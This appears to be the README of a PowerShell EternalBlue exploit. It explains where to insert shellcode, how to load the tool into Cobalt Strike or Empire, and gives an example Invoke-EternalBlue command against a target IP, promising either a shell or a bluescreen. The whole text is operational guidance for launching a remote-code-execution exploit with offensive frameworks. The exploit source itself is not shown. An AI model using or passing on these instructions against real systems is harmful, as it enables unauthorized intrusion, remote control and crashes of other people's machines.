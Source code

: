 Eternal blue powershell exploit

Add your shellcode to line 619 in the following format:  `[Byte[]]  $payload = [Byte[]](0xB9,0xC3,0x00)`


import into cobalt or empire

then run `invoke-eternableblue -target <target_ip> -max_attempts <num> -initial_grooms <num>`

Example: `Invoke-EternalBlue -target 10.0.100.106 -max_attempts 3 -initial_grooms 12`

Tested with Cobalt strike generated beacon shellcode. 

enjoy a shell, or a bluescreen
